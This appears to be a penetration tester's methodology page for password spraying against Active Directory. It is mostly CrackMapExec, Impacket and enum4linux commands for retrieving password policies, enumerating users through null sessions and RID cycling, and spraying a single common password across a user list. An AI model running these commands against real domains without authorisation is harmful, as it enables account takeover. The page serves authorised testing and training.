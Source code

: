 ```yaml
---
description: Methodology for performing password spraying attacks against active directory
---
```


# Password Spraying Active Directory

### Obtain Password Policy

<pre class="language-bash"><code class="lang-bash"><strong># Get Password Policy with CrackMapExec (Unauthenticated)
</strong>cme smb $dc -u '' -p ''
<strong>
</strong><strong># Get Password Policy with CrackMapExec
</strong>crackmapexec smb $dc -u $username -p $password --pass-pol

# Get Password Policy with Net Accounts
net accounts</code></pre>

### Get List of Users

<pre class="language-bash"><code class="lang-bash"># Get List of Users with CrackMapExec via RID Cycling (Unauthenticated)
crackmapexec smb $dc -u '' -p '' --users
crackmapexec smb $dc -u '' -p '' --groups

# Get List of Users with CrackMapExec via RID Cycling
crackmapexec smb $dc -u $username -p $password --users

# Get List of Users with Impacket
GetADUsers.py $domain/$username:$password -all -dc-ip $dc

# Get List of Users with Enum4linux
enum4linux $dc -u $username -p $password -U

<strong># Sort Usernames Obtained from Enum4Linux 
</strong>cat usernameenum.txt | grep "user" | awk {'print $1'} | cut -d '[' -f 2 | cut -d ']' -f 1 | sort -u -f > UsernameList.txt</code></pre>

### Spraying

```bash
# Spray with CrackMapExec
crackmapexec smb $ip -u $username_list -p Winter2022! --continue-on-success
```

### References

{% embed url="https://wiki.porchetta.industries/smb-protocol/enumeration/enumerate-null-sessions" %}
